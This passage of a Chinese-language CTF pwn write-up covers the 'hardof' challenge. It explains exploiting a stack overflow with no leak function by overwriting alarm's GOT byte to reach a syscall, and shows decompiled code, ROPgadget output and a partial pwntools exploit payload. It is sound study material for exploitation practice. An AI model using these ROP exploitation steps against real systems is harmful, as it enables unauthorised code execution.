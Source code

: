 # 前言
最近做了两道题目，感觉学到了很多，基础典型题目还是需要多熟悉一下，下面就分享一下做题的思路，一个是noleak，没有提供泄露函数如何去实现泄露地址；一个是在具有栈溢出，但开启了canary的情况下，没有泄露函数，read逐字节读入，通过覆盖buffer的index控制溢出点，跳过canary，实现覆盖返回地址。
# hardof <无泄露函数，修改alarm为syscall>
题目名为hardof，检查保护只开了NX保护，看下ida代码：
```c
ssize_t sub_400532()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  return read(0, buf, 0x100uLL);
}
```
关键的函数，只有这一个溢出点，没有其他泄露函数，没有system，所以要泄露libc，执行system，重点就在如何泄露libc，这里可以利用pwn题一般都会有的alarm函数，利用它的地址和syscall的偏移，利用溢出和ROP修改alarm地址最后一个字节，使其指向alarm函数中syscall那条指令，然后通过write函数泄露出alarm的地址，获取libc。
## 分析
已知一个栈溢出，溢出长度为0x48，没有输出函数可以泄露，可以利用修改alarm的最后一个字节来转向syscall实现系统调用，通过write来泄露alarm的地址，再通过溢出获取shell，具体过程如下
1. 通过溢出覆盖返回地址为read，通过ROP实现修改alarm最后一个字节（注意用send()函数发送）
2. 接着返回到ROP链去修改write函数的相关寄存器
3. 继续返回到alarm的plt处触发已经修改的alarm_got，执行syscall write实现泄露alarm地址
4. 获取system、/bin/sh地址，获取shell。
## 修改alarm最后一字节
通过查找pop_rdi、pop_rsi_r15 的ROP链、read的plt表，实现用read修改alarm最后一字节
```bash
➜  附件 ROPgadget --binary hardof --only 'pop|ret' |grep rdi
0x00000000004005e3 : pop rdi ; ret
➜  附件 ROPgadget --binary hardof --only 'pop|ret' |grep rsi
0x00000000004005e1 : pop rsi ; pop r15 ; ret
➜  附件 ROPgadget --binary hardof --only 'pop|ret' |grep rax
➜  附件 
```
```python
    pop_rdi = 0x00000000004005e3
    ret = 0x0000000000400416
    pop_rsi_r15 = 0x04005e1
    main_addr = 0x400553
    alarm_got = elf.got["alarm"]
    alarm_plt = elf.plt["alarm"]
    read_plt = elf.plt["read"]
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(read_plt)
```
栈上的布局：
